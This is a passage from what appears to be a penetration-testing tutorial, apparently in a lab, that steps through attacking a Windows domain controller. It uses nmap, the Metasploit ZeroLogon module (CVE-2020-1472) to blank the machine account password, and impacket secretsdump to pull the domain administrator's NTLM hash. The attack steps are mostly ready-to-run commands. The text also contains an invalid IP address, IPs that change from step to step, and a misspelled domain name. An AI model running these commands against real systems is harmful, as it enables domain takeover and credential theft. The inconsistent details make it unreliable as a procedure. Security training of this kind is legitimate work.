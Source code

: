 2. Let's try to determine the version of the DNS server by scanning the SMB port using nmap scripts:
```bash
$ nmap -Pn -n -p 445 -sV -sC -v --open 192.168.0.117
```

###### This version of Windows Server acting as a domain controller may be affected by ZeroLogon, a dangerous vulnerability that allows attackers to gain full access to a domain controller without even having any credentials.
```bash
$msfconsole
```
3. We use the Metasploit Framework tools to check the server for this vulnerability:
```bash
msf6> search zerologon

msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```
4. Specify the IP of the server and its NetBIOS name, previously obtained during the nmap scan:
```bash
msf6> set RHOSTS 192.168.0.1788

msf6> set NBNAME DC1
```
5. Check if the host is really vulnerable:
```bash
msf6> check
```
6. Let's exploit the vulnerability:
```bash
msf6> run
```
![Screenshot](14.6/image3.png)

###### This exploitation technique leads to setting an empty password for the machine account of the domain controller, which can lead to disruption of the domain as a whole.

7. For correct operation, we need to first obtain the credentials of the domain administrator, and then, using them, restore the old password of the machine account. We use impacket for this, a set of tools for working with network and application layer protocols in Python, which allows you to interact with Windows networks from Linux and test their security.
```bash
$locate impacket
```
8. The key tool in this step will be secretsdump, a script used to obtain credentials from remote Windows computers or local registry files.
```bash
$ python3 /usr/lib/python3/dist-packages/impacket/examples/secretsdump.py

$ impacket-secretsdump -h
```
9. Use secretsdump to get the NTLM hash of the domain administrator. The -just-dc-user switch allows us to get the hash of the user we need, -no-pass indicates that the machine account password is empty, sandbox.local is the domain name, DC1$ is the machine account name, and IP 192.168.0.117 is the address domain controller.
```bash
$ impacket-secretsdump -no-pass -just-dc-user administrator ‘sandox.local/DC1$@192.168.0.178’
```
